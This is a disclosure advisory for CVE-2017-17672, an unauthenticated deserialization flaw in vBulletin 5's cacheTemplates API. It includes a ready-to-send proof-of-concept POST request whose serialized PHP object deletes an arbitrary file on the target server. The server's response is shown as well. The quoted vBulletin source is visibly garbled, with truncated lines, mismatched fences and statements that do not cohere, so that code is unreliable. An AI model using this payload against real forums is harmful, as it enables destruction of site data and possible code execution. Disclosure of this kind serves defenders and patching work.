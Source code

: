 # SSD Advisory – vBulletin cacheTemplates Unauthenticated Remote Arbitrary File Deletion
Source: https://blogs.securiteam.com/index.php/archives/3573

## Vulnerability Summary
The following advisory describes a unauthenticated deserialization vulnerability that leads to arbitrary delete files and, under certain circumstances, code execution found in vBulletin version 5.

vBulletin, also known as vB, is “a widespread proprietary Internet forum software package developed by vBulletin Solutions, Inc., based on PHP and MySQL database server. vBulletin powers many of the largest social sites on the web, with over 100,000 sites built on it, including Fortune 500 and Alexa Top 1M companies websites and forums. According to the latest W3Techs1 statistics, vBulletin version 4 holds more than 55% of the vBulletin market share, while version 3 and 5 divide the remaining percentage”.

## Credit
A security researcher from, TRUEL IT ( @truel_it ), has reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program.

## Vendor response
We tried to contact vBulletin since November 21 2017, repeated attempts to establish contact went unanswered. At this time there is no solution or workaround for these vulnerabilities.

CVE: CVE-2017-17672

## Vulnerability details
Unsafe usage of PHP’s unserialize() on user-supplied input allows an unauthenticated attacker to delete arbitrary files and, under certain circumstances, execute arbitrary code on a vBulletin installation.

vB_Library_Template’s cacheTemplates() function, which is an publicly exposed API which allows to fetch information on a set of given templates from the database in order to store them inside a cache variable.

File core/vb/api/template.php – function cacheTemplates():

```
public function cacheTemplates($templates, $templateidlist, $skip_bbcode_style = false,
$force_set = false)
{
return vB_Library::instance('template')->cacheTemplates($templates, $templateidlist, $skip_bbcode_style, $for
```

Let’s take a look at $templateidlist – core/vb/library/template.php – function cacheTemplates():

````
public function cacheTemplates($templates, $templateidlist, $skip_bbcode_style = false,
$force_set = false)
{
$vboptions = vB::getDatastore()
// vB_Library_Style::switchCssStyle() may pass us a templateidlist that's already unserialized.
if (!is_array($templateidlist))
{
  $templateidlist = unserialize($templateidlist);
}
foreach ($templates AS $template)
{
  if (isset($templateidlist[$template]))
  {
   $templateids[] = intval($templateidlist[$template]);
  }
}
if (!empty($templateids))
{
  $temps = vB::getDbAssertor(array('title', 'textonly', 'template_un', 'template'));
  // cache templates
  foreach ($temps as $temp)
  {
   if (empty(self::$templatecache["$temp[title]"]) OR $force_set)
   {
    self::$templatecache["$temp[title]"] = $this;
   }
  }
}
if (!$skip_bbcode_style)
{
  self::$bbcode_style = array(
   'code' => &$templateassoc['bbcode_code_styleid'],
   'html' => &$templateassoc['bbcode_html_styleid'],
   'php' => &$templateassoc['bbcode_php_styleid'],
   'quote' => &$templateassoc['bbcode_quote_styleid']
  );
}
}
```

$temnplateidlist variable, which can come directly from user-input, is directly supplied to unserialize(), resulting in an arbitrary deserialization primitive.

## Proof of Concept
By sending the following POST request an unauthenticated attacker can delete files from the victims server

```
POST /vb533/ajax/api/template/cacheTemplates HTTP/1.1
Host: vb533.test
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_0) AppleWebKit/537.36 (KHTML, like
Gecko) Chrome/61.0.3163.100 Safari/537.36
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,/;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.8,en-US;q=0.6,en;q=0.4
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 125
 
templates[]=1&templateidlist=O:20:"vB_Image_ImageMagick":1:{s:20:"%00*%00imagefilelocation";s:13:"/path/to/file";}
```

The server then will respond with:

```
HTTP/1.1 200 OK
Date: Fri, 27 Oct 2017 09:27:52 GMT
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: sessionhash=409d8f4b16ebb55471e63509834d0eff; path=/; HttpOnly
Set-Cookie: lastvisit=1509096472; path=/; HttpOnly
Set-Cookie: lastactivity=1509096472; path=/; HttpOnly
Set-Cookie: sessionhash=44b1e8d2d433031ec2501649630dd8bf; path=/; HttpOnly
Cache-Control: max-age=0,no-cache,no-store,post-check=0,pre-check=0
Expires: Sat, 1 Jan 2000 01:00:00 GMT
Last-Modified: Fri, 27 Oct 2017 09:27:52 GMT
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 2101
Connection: close
Content-Type: application/json; charset=UTF-8
 
{"errors":[["unexpected_error","Cannot use object of type vB_Image_ImageMagick as array"]]}
```